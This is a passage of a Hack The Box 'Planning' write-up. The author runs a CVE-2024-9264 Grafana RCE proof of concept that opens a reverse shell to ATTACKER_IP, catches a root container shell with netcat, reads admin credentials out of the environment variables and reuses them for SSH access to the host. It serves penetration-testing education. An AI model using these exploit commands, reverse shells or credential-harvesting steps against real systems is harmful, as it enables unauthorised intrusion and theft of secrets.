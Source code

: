 And the exploit is executed.

```
fcoomans@kali:~/htb/planning/CVE-2024-9264-RCE-Exploit$ python poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip ATTACKER_IP --reverse-port 4444
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 4444
```

The `nc` listener catches the reverse shell.

```
fcoomans@kali:~/htb/planning$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.11.68] 51282
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

From the container shell, I dump the environment variables and uncover hardcoded Grafana credentials for user `enzo`.

```
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=/usr/bin/sh
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

#### 👣 Foothold as enzo

This lets me pivot to the host system via SSH using `enzo` and password `RioTecRANDEntANT!`

```
fcoomans@kali:~/htb/planning$ ssh enzo@planning.htb
enzo@planning.htb's password:

<SNIP>

enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
enzo@planning:~$ hostname
planning
```
